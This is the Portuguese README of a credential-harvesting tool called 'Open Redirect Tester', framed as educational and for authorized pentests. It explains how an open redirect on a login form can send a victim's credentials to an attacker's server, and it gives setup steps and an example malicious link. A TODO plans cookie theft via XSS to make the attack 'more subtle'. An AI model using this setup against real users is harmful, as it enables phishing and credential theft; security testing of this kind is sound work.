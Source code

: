 # Open Redirect Tester

**ATENÇÃO:** Uso da app tem objetivo educacional ou para utilizar em um pentest web autorizado.

Essa app automatiza a validação de um ataque usando Open Redirect. A app recebe os dados submetidos a partir de um formulário em um alvo e salva em um arquivo chamado dados.txt. Esse ataque envolve uma etapa prévia de envio de um link para o usuário alvo.

## Esquema teórico do ataque

![Esquema - Open Redirect](open-redirect-vuln.png)

Fonte da imagem do usuário malicioso (mage by macrovector_official on Freepik): [Link](https://www.freepik.com/free-vector/hacker-activity-set-black-red-icons-breaking-account-malware_16334214.htm#query=computer%20hacker&position=12&from_view=keyword&track=aisI)

Em alguns sistemas, no formulário de login, após o usuário informar os dados e submeter, na url já é passado um parâmetro que indica que após logar, o usuário será redirecionado para uma determinada url. Esse parâmetro pode ter vários nomes (redirect, next, service, etc).

Na figura anterior, como exemplo, a url indica que após logar o usuário deverá ser redirecionado para https://sistema-alvo/dashboard.

**Etapas do ataque**:

1. O atacante envia um link malicioso com um parâmetro de redirecionamento diferente, enviando os dados para um sistema malicioso. Ex.: https/sistema-alvo/next=http://url-maliciosa;
2. O usuário vítima acessa o link e informa as credenciais de acesso;
3. As credenciais são enviados para uma app maliciosa que recebe esses dados;
4. Os dados coletados são salvos e o atacante tem acesso a essa informação.
5. A app maliciosa envia um redirect para a vítima para uma url do sistema verdadeiro, no exemplo, https://sistema-alvo

## Como usar essa app

1. Efetue o clone da app em um computador com S.O. Linux, que será o servidor que executara a app maliciosa:

```shell
git clone https://github.com/gutobrutus/open-redirect-tester.git
```

2. Acesse o diretório da app:

```shell
cd open-redirect-tester
```

3. Inicie um virtual env do python:
```shell
python3 -m venv venv
```

4. Instale as dependências:
```shell
pip install -r requirements
```

5. Execute a app:
```shell
python3 server.py
```
![Executando](open_redirect_tester01.gif)

A app solicitará 3 argumentos:
- **HOST**: O host que coletará os dados do usuário, no caso, onde estará executando a app maliciosa.
- **PORTA**: Em que porta a app maliciosa irá escutar.
- **URL_REDIRECT**: Para qual URL a app maliciosa redirecionará a vítima, uma url válida do sistema que o usuário está usando.

A app responde no endpoint /redirapp, ou seja, se o HOST for 192.168.56.100 e a PORTA for 5000, o link que será enviado ao usuário deverá ser https/sistema-alvo/next=http://192.168.56.100:5000/redirapp. O ip ai é apenas para exemplificar, troque-o para o seu cenário.

## Comentários:

Apesar de ser uma vulnerabilidade bastante conhecida, por vezes, ainda é encontrada alguns sistemas web. Essa app aqui é apenas para apoiar e facilitar um pouco na exploração, além de auxiliar no entendimento do ataque.

## TODO

- Coletar o cookie do usuário e devolver no redirect o usuário logado, deixando o ataque mais sútil e despercebido. Requer uma vulnerabilidade de XSS.
- Persistir um log de acesso da app
- Criar um Dockerfile para utilizar em container a app
